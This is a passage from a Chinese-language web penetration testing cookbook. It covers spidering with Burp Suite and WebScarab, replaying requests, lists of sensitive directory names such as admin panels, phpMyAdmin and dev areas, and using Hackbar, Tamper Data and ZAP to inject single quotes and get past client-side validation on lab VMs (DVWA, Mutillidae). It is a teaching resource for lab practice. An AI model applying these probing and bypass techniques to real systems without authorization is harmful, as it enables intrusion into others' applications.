

9. 可以在 `Target` 下的 `Site map` 标签页中查看蜘蛛生成的的结果。让我们查看我们之前填写的登录请求：



**[65]**


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛*

## 工作原理...

Burp 的蜘蛛遵循与其他蜘蛛相同的方法论，但运行方式略有不同。我们可以在浏览站点时让它运行，它会将我们跟随的链接（符合范围定义的）添加到爬取队列中。

就像在 ZAP 中一样，我们可以使用 Burp 的爬取结果来执行任何操作；我们可以执行任何请求，例如扫描（如果我们有付费版）、重复、比较、模糊测试、在浏览器中查看等。

### 使用 Burp 的 repeater 重复请求

在分析蜘蛛结果并测试表单的可能输入时，发送更改了特定值的、相同请求的不同版本可能会很有用。

在本食谱中，我们将学习如何使用 Burp 的 repeater 多次发送带有不同值的请求。

## 准备工作

我们从上一个教程结束的地方开始本食谱。有必要让 `vulnerable_vm` 虚拟机运行、启动 Burp Suite，并正确配置浏览器以使用其作为代理。

## 如何操作...

1. 我们的第一步是进入 `Target` 标签页，然后找到蜘蛛对登录页的请求（`http://192.168.56.102/bodgeit/login.jsp`），即显示 `username=test&password=test` 的那一个。

**[66]**


### 第 3 章

2. 右键点击请求并从菜单中选择 `Send to Repeater`，所示：



3. 现在我们切换到 `Repeater` 标签页。

**[67]**


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛*

4. 点击 `Go` 在右侧查看服务器响应：



在 `Request` 部分（左侧）我们可以看到原始请求。第一行显示方法：`POST`，请求 URL 和协议：`HTTP 1.1`。接下来的行到 `Cookie:` 是头部参数；之后是我们引入的 `POST` 参数。

5. 在响应部分有一些标签：`Raw`、`Headers`、`Hex`、`HTML` 和 `Render`。这些以不同的格式显示响应信息。让我们点击 `Render` 查看页面，所示：

**[68]**


### 第 3 章



6. 我们可以修改请求侧的任何信息。再次点击 `Go` 并检查新响应。为了测试目的，我们将 `password` 值替换为单引号（`'`），然后发送请求：



所示我们通过更改输入变量的值引发了系统错误。这可能表明应用程序存在漏洞。在后面的章节中，我们将涵盖漏洞的测试并识别深入探讨。

**[69]**


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛*

### 使用 WebScarab

WebScarab 是另一个网络代理，具有许多渗透测试人员可能感兴趣的功能。在本食谱中，我们将使用它来爬取网站。

## 准备工作

默认配置下，WebScarab 使用 `8008` 端口捕捉 HTTP 请求，因此我们需要配置浏览器使用 `localhost` 的该端口作为代理。你需要按照与 Owasp-Zap 和 Burp Suite 类似的步骤配置浏览器。在这种情况下，端口必须是 `8008`。

## 如何操作...

1. 在 Kali 应用程序菜单打开 WebScarab 并导航到 `webscarab`。

2. 访问 vulnerable_vm 的 Bodgeit 应用程序（`http://192.168.56.102/bodgeit/`）。将在 WebScarab 的 `Summary` 标签页中看到它。

3. 现在，右键点击 `bodgeit` 文件夹并从菜单中选择 `Spider tree`。


所示：



[70]


## 第 3 章

4. 所有请求将显示在摘要的下半部分，随着爬虫发现新文件，树形结构将被填充：



摘要还显示了关于每个特定文件的相关信息；例如，它是否包含注入或可能的注入漏洞，它是否设置了 cookie，是否包含表单，以及表单是否包含隐藏字段。它还指示了代码中注释或是否存在文件上传。

[71]


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛程序*

5. 如果我们右键点击下半部分的任何请求，就可以查看对它们可以执行的操作。我们将分析一个请求，找到路径 `/bodgeit/search.jsp`，右键点击它并选择 `Show conversation`（显示对话）。将弹出一个新窗口，以各种格式显示响应和请求，如下截图所示：



6. 现在点击 `Spider`（蜘蛛）标签页。



[72]


## 第 3 章

在此标签页中，我们可以通过 `Allowed Domains`（允许域）和 `Forbidden Domains`（禁止域）文本框调整爬虫获取内容的正则表达式。我们可以使用 `Fetch Tree`（获取树）刷新结果。我们还可以点击 `Stop`（停止）按钮停止爬虫。

## 工作原理...

WebScarab 的爬虫类似于 `ZAP` 和 `Burp Suite`，它用于发现网站或目录中引用的所有文件，而无需手动浏览所有可能的链接，并深度分析发送到服务器的请求，利用这些请求进行更复杂的测试。

### 从爬取结果识别相关文件和目录

我们已经爬取了应用程序的全目录，并获取了其中引用的文件和目录的完整列表。下一个自然的步骤是识别其中哪些文件包含相关信息，或者代表了增加发现漏洞的机会。

这不仅仅是一个配方，它将是一个常见名称、后缀或前缀的目录，这些名称通常用于文件和目录，通常能为渗透测试人员提供有用信息，或可能导致系统完全被破解的漏洞利用。

## 如何操作...

1. 首先，我们要寻找的是登录和注册页面，这些页面可以让我们有机会成为应用程序的合法用户，或者通过猜测用户名和密码冒充合法用户。一些名称或部分名称示例包括：
- `Account`
- `Auth`
- `Login`
- `Logon`
- `Registration`
- `Register`
- `Signup`
- `Signin`

[73]


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛程序*

2. 用户名、密码以及设计漏洞另一个常见来源是密码恢复页面：
- `Change`
- `Forgot`
- `lost-password`
- `Password`
- `Recover`
- `Reset`

3. 接下来，我们需要识别应用程序是否存在管理区域，一组可能允许我们在其上执行高权限的任务函数，例如：
- `Admin`
- `Config`
- `Manager`
- `Root`

4. 其他有趣的目录是内容管理系统 (CMS) 管理、数据库或应用程序服务器的目录，例如：
- `Admin-console`
- `Adminer`
- `Administrator`
- `Couch`
- `Manager`
- `Mylittleadmin`
- `PhpMyAdmin`
- `SqlWebAdmin`
- `Wp-admin`

5. 应用程序的测试和开发版本通常比发布版本保护保护且更容易产生漏洞，因此它们是我们寻找弱点的良好目标。这些目录名称可能包括：
- `Alpha`
- `Beta`
- `Dev`
- `Development`
- `QA`
- `Test`

[74]


## 第 3 章

Web 服务器信息和配置文件如下
- `config.xml`
- `info`
- `phpinfo`
- `server-status`
- `web.config`

7. 此外，在 `robots.txt` 中标记为 `Disallow` 的所有目录和文件可能有用。

## 工作原理...

在前节列出的某些及其在目标应用程序开发语言中的变体可能允许我们访问网站的受限部分，这是渗透测试中非常重要的一步。其中一些将为我们提供有关服务器、其配置以及所使用的开发框架的信息。另一些例如 `Tomcat manager` 和 `JBoss administration` 页面，如果配置不当，将让我们（或恶意攻击者）控制 Web 服务器。

[75]


[Technet24.ir](http://technet24.ir)


# 第 4 章

发现漏洞 4

在本章中，我们将涵盖：
- 使用 `Hackbar` 插件简化参数探测
- 使用 `Tamper Data` 插件拦截并修改请求
- 使用 `ZAP` 查看和更改请求
- 使用 `Burp Suite` 查看和更改请求
- 识别跨站脚本 (XSS) 漏洞
- 识别基于错误的 SQL 注入
- 识别盲注 SQL 注入
- 识别 cookie 中的漏洞
- 使用 `SSLScan` 获取 SSL 和 TLS 信息
- 寻找文件包含
- 识别 `POODLE` 漏洞

## 引言

我们现在已经完成了渗透测试的侦察阶段，识别了我们的应用程序使用的服务器类型和开发框架，以及一些可能的弱点。现在是时候对应用程序进行实际测试并检测它存在的漏洞了。

在本章中，我们将涵盖检测 Web 中最常见漏洞的程序以及允许我们发现和利用这些漏洞的工具。

我们将在 `vulnerable_vm` 中操作并使用 `OWASP Mantra` 作为浏览器进行测试。

[77]


[Technet24.ir](http://technet24.ir)

*发现漏洞*

## 使用 Hackbar 插件简化参数探测

在测试 Web 应用程序时，我们需要与浏览器地址栏交互，添加参数并更改 URL。某些服务器响应将包含重定向、刷新和参数更改；这些更改使得尝试不同的值变得非常耗时；我们需要某些工具来减少干扰。

`Hackbar` 是一个 Firefox 插件，行为类似于地址栏，但不受重定向或其他更改的影响。在本配方，我们将使用 `Hackbar` 轻松发送多个版本的请求。

## 准备工作

如果你没有使用 `OWASP Mantra`，你需要为你的 Firefox 版本安装 `Hackbar` 插件。

## 如何操作...

1. 访问 `Damn Vulnerable Application (DVWA)` 并登录。
默认用户名/密码组合为 `admin/admin`。

2. 从左侧菜单中选择 `SQL Injection`。



[78]


# 第 4 章

3. 在 `User ID` 文本框中输入数字并点击 `Submit`。


现在通过 `F9` 或点击图标显示 `Hackbar`：



`Hackbar` 将复制 URL 及其参数。我们还可以开启修改 `POST` 请求和 `Referrer` 参数的选项，后者告知服务器请求页面的 URL。

4. 让我们做一个简单的修改，将 `id` 参数的值从 `1` 更改为 `2` 并点击 `Execute` 或使用组合键 `Alt` + `X`：



[79]


[Technet24.ir](http://technet24.ir)

*发现漏洞*

我们可以看到 `id` 参数对应于页面上的文本框，因此使用 `Hackbar` 我们可以通过修改 `id` 来尝试任何值，而不是在文本框中更改 `User ID` 并提交。


5. 我们用一个有效值替换了另一个值，但如果我们引入一个无效值作为 id 会发生什么呢？尝试引入一个单引号作为 id：


通过引入一个应用程序未预料到的的字符，我们触发了它的错误；这在稍后测试某些漏洞时将非常有用。

## 工作原理...

Hackbar 充当第二个地址栏，并具有一些实用的功能，例如不受 URL 重重定向的影响，并允许修改 POST 参数。

此外，Hackbar 还允许我们有机会向请求中添加 SQL 注入和跨站脚本代码段，并对输入进行哈希、加密和编码。我们将在本章节随后的教程中更深入地探讨 SQL 注入、跨站脚本和其他漏洞。

### 使用 Tamper Data 插件拦截和修改请求

有时，应用程序通过 JavaScript、隐藏表单或 POST 参数具有客户端输入验证机制，这些内容是用户不知道或无法直接在地址栏中看到或操作的；为了测试这些及其他类型的变量，我们需要拦截浏览器发送的请求，并在它们到达服务器之前对其进行修改。在本教程中，我们将使用一个名为 Tamper Data 的 Firefox 扩展来拦截表单提交，并在离开我们的计算机之前更改某些值。

[80]


# 第 4 章

## 如何操作...

1. 进入 Mantra 菜单，导航到 工具 (Tools) | 应用程序审核 (Application Auditing) | Tamper Data。


2. 将弹出 Tamper Data 窗口。现在，让我们访问 `http://192.168.56.102/dvwa/login.php`。我们可以看到插件中的请求区域正在填充：


[81]


### 寻找漏洞
在 Tamper Data 激活期间，我们在浏览器中进行的每一个请求都会通过 Tamper Data。

3. 要拦截请求并更改其值，我们需要点击开始篡改 (Start Tamper) 开始篡改。现在开始篡改。

4. 输入一些虚假的用户名/密码组合；例如输入 test/password，然后点击登录 (Login)。

5. 在确认框中，取消勾选继续篡改 (Continue Tampering?) 框并点击篡改 (Tamper)；将显示篡改窗口 (Tamper Popup)。

6. 在此弹出窗口中，我们可以修改发送服务器的信息，包括请求头和 POST 参数。将用户名和密码更改为有效值 (admin/admin) 并点击确定 (OK)。在本书中应使用这种方法而不是直接使用 DVWA：


通过最后一步，我们在浏览器发送表单后立即修改了表单中的值。因此，我们能够使用有效凭据登录，而不是向服务器发送错误的凭据。

[82]


# 第 4 章

## 工作原理...

Tamper Data 会在请求离开浏览器之前捕获它，并留给我们更改其中包含的任何变量。然而，它也有一些局限性，例如无法编辑 URL 或 GET 参数。

### 使用 ZAP 查看和更改请求

尽管 Tamper Data 可以帮助测试过程，但有时我们需要一种更灵活的方法来修改请求并获得更多功能，例如更改发送请求的方法（即从 GET 更改为 POST）或保存请求/响应对以供其他工具进一步处理。

OWASP ZAP 不仅仅是一个 Web 代理，它不仅拦截流量，还拥有许多与之前章节中使用的爬虫类似的功能：漏洞扫描器、模糊测试器 (fuzzer)、破解器等。它还有一个脚本引擎，可以用于自动化活动或创建新功能。

在本教程中，我们将开始使用 OWASP ZAP 作为 Web 代理，拦截请求，并在更改某些值后将其发送到服务器。

## 准备工作
启动 ZAP 并配置浏览器通过它发送信息。

## 如何操作...

1. 访问 `http://192.168.56.102/mutillidae/`。

2. 现在，在菜单中导航到 OWASP Top 10 | A1 – SQL Injection | SQLi – 数据 (Extract Data) | 用户信息 (User Info)。

3. 下一步是提高应用程序的安全级别，点击一次切换安全级别 (Toggle Security)。现在安全级别应为 1（傲慢/Arrogant）。

[83]


### 寻找漏洞
4. 在名称 (Name) 中输入 test'（包括单引号），在密码 (Password) 中输入 password' 并点击查看账户详情 (View Account Details)。


我们收到了一条警告消息，告诉我们输入中的某些字符是无效的。在这种情况下，单引号 ('') 肯定被应用程序的安全措施检测并拦截了。

5. 点击确定 (OK) 关闭警报。

如果我们检查 ZAP 中的历史记录，可以看到没有发送带有我们输入的数据的请求，这是由于客户端验证机制。我们将使用代理拦截来绕过此保护。

6. 现在，我们通过点击“拦截所有请求”(break on all requests)”按钮来启用请求拦截（在 ZAP 中称为断点/breakpoints）。


[84]


# 第 4 章

7. 接下来，我们在名称和密码中引入允许的值，如 test 和 password，并再次检查详情。ZAP 将夺取焦点，并出现一个名为 Break 的新标签页。这就是我们刚刚在页面上进行的请求，我们看到的是一个在 URL 中发送了用户名和密码参数的 GET 请求。在这里，我们可以添加之前尝试中不允许的单引号。


8. 为了在不被 ZAP 拦截应用程序制作的每一个请求的情况下继续，让我们点击“取消断点 (Unset break)”按钮禁用断点。


[85]


### 寻找漏洞


9. 点击按钮提交修改后的请求。


我们可以看到应用程序在底部给了我们一条错误消息，所以这是一个保护机制，它在客户端检查用户输入，但服务器端尚未准备好处理意外的请求。

### 核心原理...

在本教程中，我们使用 ZAP 代理拦截了一个有效请求，将其修改为无效或恶意的请求，然后将其发送到服务器并触发了其意外行为。

前三个步骤是为了启用安全保护，以便应用程序能够检测到单引号为非法字符。

之后我们进行了一个测试请求并验证了执行了验证。警报弹出时没有请求通过代理，这告诉我们验证是在客户端执行的。在了解这一点后，我们制作了一个有效请求并用代理拦截了它，这使我们绕过了客户端保护；我们将该请求转换为恶意并发送到服务器；服务器无法正确处理并返回了错误。

[86]


# 第 4 章

### 使用 Burp Suite 查看和更改请求

Burp Suite 与 ZAP 不是一个简单的代理。它是一个功能齐全的 Web 应用程序测试工具包；它拥有代理、请求重复、请求自动化、字符串编码和解码器、漏洞扫描器（专业版）以及其他功能。

## 准备工作
启动 Burp Suite 并配置浏览器使用其代理。

## 如何操作...

1. 访问 `http://192.168.56.102/mutillidae/`。

